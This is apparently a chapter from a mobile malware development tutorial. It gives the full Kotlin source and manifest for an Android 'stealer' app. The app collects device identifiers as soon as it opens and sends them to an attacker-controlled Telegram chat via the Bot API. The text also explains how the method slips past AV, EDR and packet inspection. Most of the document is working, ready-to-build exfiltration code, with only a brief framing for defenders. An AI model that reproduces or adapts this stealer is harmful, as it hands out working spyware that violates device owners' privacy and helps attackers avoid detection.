






\newpage
\subsection{11. mobile malware development trick. Abuse Telegram Bot API. Simple Android (Java/Kotlin) stealer example.}

﷽

{height=400px}    

So, let me show simple scenario. Abusing legitimate APIs for malicious purposes: a case study with Telegram.    

In this post, we will discuss how adversaries can abuse Telegram or similar APIs for stealing information and exfiltrating data from Android device. We'll also break down a real-world example of using Telegram Bot API to send stolen information (e.g., contacts, device info) from an infected Android device to a remote server.      

### the power of legitimate APIs in cyber attacks

Many adversaries prefer using legitimate services like Telegram, GitHub, or even VirusTotal because:     

- These services are trusted by security solutions (AV/EDR systems), making it harder for malicious activity to be detected.    

- They often bypass firewall rules, deep packet inspection (DPI), or other defensive systems that focus on blocking known attack traffic.    

- The use of such services may blend in with everyday network traffic, lowering the chances of detection.    

For red teamers and blue teamers, understanding how these services can be used for malicious purposes is critical for defending against advanced command and control (C2) techniques and data exfiltration.    

### practical example

Let's look at a real-world scenario where `OkHttp` and the Telegram Bot API are used by adversaries to send stolen data from an Android device to a Telegram chat. This technique can be easily extended to other services like Slack, Discord or Github.    

How the adversary's code works? Initial Infection: Let's imagine an adversary compromises a mobile device (e.g., via a malicious app or social engineering) and gains access to sensitive data stored on the device, such as contacts, device information, and messages.     

The adversary embeds OkHttp library in the app, which enables it to make HTTP requests (in this case, to Telegram's Bot API). OkHttp allows the app to send `POST` requests asynchronously to the Telegram Bot API, exfiltrating data like device info.    

Your project's structure looks like there (`Hack`):     

{width="80%"}       

First of all update your manifest file:     

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools">

    <uses-feature
        android:name="android.hardware.telephony"
        android:required="false" />
    <uses-permission android:name="android.permission.INTERNET"/>

    <application
        android:allowBackup="true"
        android:dataExtractionRules="@xml/data_extraction_rules"
        android:fullBackupContent="@xml/backup_rules"
        android:icon="@drawable/cat"
        android:label="@string/app_name"
        android:roundIcon="@drawable/cat"
        android:supportsRtl="true"
        android:theme="@style/Theme.Hack"
        tools:targetApi="31">
        <activity
            android:name=".HackMainActivity"
            android:exported="true"
            android:theme="@style/Theme.Hack">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

As you can see, the only permission is `INTERNET` for connecting via HTTP in our case.    

First of all look at this function:    

```kotlin
// function to send message using OkHttp
fun sendTextMessage(message: String) {
    val token = getTokenFromAssets()
    val chatId = getChatIdFromAssets()
    val deviceInfo = getDeviceName()
    val meow = "Meow! ♥️\uFE0F"
    val messageToSend = "$message\n\n$deviceInfo\n\n$meow\n\n"

    val requestBody = FormBody.Builder()
        .add("chat_id", chatId)
        .add("text", messageToSend)
        .build()

    val request = Request.Builder()
        .url("https://api.telegram.org/bot$token/sendMessage")
        .post(requestBody)
        .build()

    // send the request asynchronously using OkHttp
    client.newCall(request).enqueue(object : Callback {
        override fun onFailure(call: Call, e: IOException) {
            e.printStackTrace()
        }

        override fun onResponse(call: Call, response: Response) {
            if (response.isSuccessful) {
                // Handle success
                println("Message sent successfully: ${response.body?.string()}")
            } else {
                println("Error: ${response.body?.string()}")
            }
        }
    })
}
```

The app uses `OkHttp` to send an `HTTP POST` request to the Telegram API, containing the stolen data, like device info and other metadata (such as "Meow! ♥️").     

The Bot token and Chat ID are fetched from files stored in the assets directory (`token.txt` and `id.txt`):     

```kotlin
// fetch token and chatId from assets (assuming these are saved in files)
private fun getTokenFromAssets(): String {
    return context.assets.open("token.txt").bufferedReader().readText().trim()
}

private fun getChatIdFromAssets(): String {
    return context.assets.open("id.txt").bufferedReader().readText().trim()
}
```

Then the device info (e.g., manufacturer, model, device ID) is collected using Android's `Build` class. This data is often used by attackers for device profiling and reconnaissance:     

```kotlin
// get device info
private fun getDeviceName(): String {
    fun capitalize(s: String?): String {
        if (s.isNullOrEmpty()) {
            return ""
        }
        val first = s[0]
        return if (Character.isUpperCase(first)) {
            s
        } else {
            first.uppercaseChar().toString() + s.substring(1)
        }
    }

    val manufacturer = Build.MANUFACTURER
    val model = Build.MODEL
    val device = Build.DEVICE
    val deviceID = Build.ID
    val brand = Build.BRAND
    val hardware = Build.HARDWARE
    val hostInfo = Build.HOST
    val userInfo = Build.USER
    val board = Build.BOARD
    val display = Build.DISPLAY
    val fingerprint = Build.FINGERPRINT
    val devT = Build.TYPE
    val radio = Build.getRadioVersion()

    val info = "Hardware: ${capitalize(hardware)}\n" +
            "Manufacturer: ${capitalize(manufacturer)}\n" +
            "Model: ${capitalize(model)}\n" +
            "Device: ${capitalize(device)}\n" +
            "ID: ${capitalize(deviceID)}\n" +
            "Brand: ${capitalize(brand)}\n" +
            "Host: ${capitalize(hostInfo)}\n" +
            "User: ${capitalize(userInfo)}\n" +
            "Board: ${capitalize(board)}\n" +
            "Display: ${capitalize(display)}\n" +
            "Fingerprint: ${capitalize(fingerprint)}\n" +
            "Build TYPE: ${capitalize(devT)}\n" +
            "RADIO: ${capitalize(radio)}"

    return info
}
```

So, the full source code of this logic is looks like this (`HackNetwork`):    

```kotlin
package cocomelonc.hack

import android.content.Context
import android.os.Build
import okhttp3.Call
import okhttp3.Callback
import okhttp3.FormBody
import okhttp3.OkHttpClient
import okhttp3.Request
import okhttp3.Response
import java.io.IOException

class HackNetwork(private val context: Context) {

    private val client = OkHttpClient()

    // function to send message using OkHttp
    fun sendTextMessage(message: String) {
        val token = getTokenFromAssets()
        val chatId = getChatIdFromAssets()
        val deviceInfo = getDeviceName()
        val meow = "Meow! ♥️\uFE0F"
        val messageToSend = "$message\n\n$deviceInfo\n\n$meow\n\n"

        val requestBody = FormBody.Builder()
            .add("chat_id", chatId)
            .add("text", messageToSend)
            .build()

        val request = Request.Builder()
            .url("https://api.telegram.org/bot$token/sendMessage")
            .post(requestBody)
            .build()

        // send the request asynchronously using OkHttp
        client.newCall(request).enqueue(object : Callback {
            override fun onFailure(call: Call, e: IOException) {
                e.printStackTrace()
            }

            override fun onResponse(call: Call, response: Response) {
                if (response.isSuccessful) {
                    // Handle success
                    println("Message sent successfully: ${response.body?.string()}")
                } else {
                    println("Error: ${response.body?.string()}")
                }
            }
        })
    }

    // get device info
    private fun getDeviceName(): String {
        fun capitalize(s: String?): String {
            if (s.isNullOrEmpty()) {
                return ""
            }
            val first = s[0]
            return if (Character.isUpperCase(first)) {
                s
            } else {
                first.uppercaseChar().toString() + s.substring(1)
            }
        }

        val manufacturer = Build.MANUFACTURER
        val model = Build.MODEL
        val device = Build.DEVICE
        val deviceID = Build.ID
        val brand = Build.BRAND
        val hardware = Build.HARDWARE
        val hostInfo = Build.HOST
        val userInfo = Build.USER
        val board = Build.BOARD
        val display = Build.DISPLAY
        val fingerprint = Build.FINGERPRINT
        val devT = Build.TYPE
        val radio = Build.getRadioVersion()

        val info = "Hardware: ${capitalize(hardware)}\n" +
                "Manufacturer: ${capitalize(manufacturer)}\n" +
                "Model: ${capitalize(model)}\n" +
                "Device: ${capitalize(device)}\n" +
                "ID: ${capitalize(deviceID)}\n" +
                "Brand: ${capitalize(brand)}\n" +
                "Host: ${capitalize(hostInfo)}\n" +
                "User: ${capitalize(userInfo)}\n" +
                "Board: ${capitalize(board)}\n" +
                "Display: ${capitalize(display)}\n" +
                "Fingerprint: ${capitalize(fingerprint)}\n" +
                "Build TYPE: ${capitalize(devT)}\n" +
                "RADIO: ${capitalize(radio)}"

        return info
    }

    // fetch token and chatId from assets (saved in files)
    private fun getTokenFromAssets(): String {
        return context.assets.open("token.txt").bufferedReader().readText().trim()
    }

    private fun getChatIdFromAssets(): String {
        return context.assets.open("id.txt").bufferedReader().readText().trim()
    }
}
```

And the MainActivity logic is pretty simple (no need to request permissions in this case):    

```kotlin
package cocomelonc.hack

import android.os.Bundle
import androidx.activity.ComponentActivity
import android.widget.Button
import android.widget.Toast

class HackMainActivity : ComponentActivity() {
    private lateinit var meowButton: Button
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)
        meowButton = findViewById(R.id.meowButton)
        meowButton.setOnClickListener {
            Toast.makeText(
                applicationContext,
                "Meow! ♥️\uFE0F",
                Toast.LENGTH_SHORT
            ).show()
            HackNetwork(this).sendTextMessage("Meow! ♥️\uFE0F")
        }
        HackNetwork(this).sendTextMessage("Meow! ♥️\uFE0F")
    }
}
```

As you can see just clicking the `Meow` button is run stealing info logic.       

### demo

Let's go to see everything in action. Deploy and run on my virtual device:    

{height="30%"}       

Then click `Meow` button:     

{height="30%"}       

{height="30%"}       

{width="80%"}       

Also deploy and run on real device (`Android 14` OPPO in my case):     

{height="30%"}       

After successfully install:     

{height="30%"}       

Run:     

{width="80%"}       

As you can see, everything is worked perfectly as expected! =^..^=

### why this is dangerous?     

First of all, using legit API: the attacker uses Telegram, a legitimate service, to send the stolen information. This is a common tactic because Telegram is trusted, and its API calls are less likely to be flagged by traditional security tools.       

The malicious app sends device-related information, which could be valuable for identity theft, social engineering, or targeted attacks. With the device details, an attacker could also track the device's activity or further exploit it.     

Also, by using Telegram like in the one of the previous Windows malware section, an `HTTP`-based communication method, the attacker avoids detection by traditional network filters or deep packet inspection (DPI). This makes it much harder for security tools to detect the malicious activity.     

The attacker receives the exfiltrated data on their Telegram account, allowing them to monitor the device in real-time and potentially escalate their attack to gather more sensitive information.      

[Telegram Bot API](https://core.telegram.org/bots/api)    
[okhttp](https://github.com/square/okhttp)     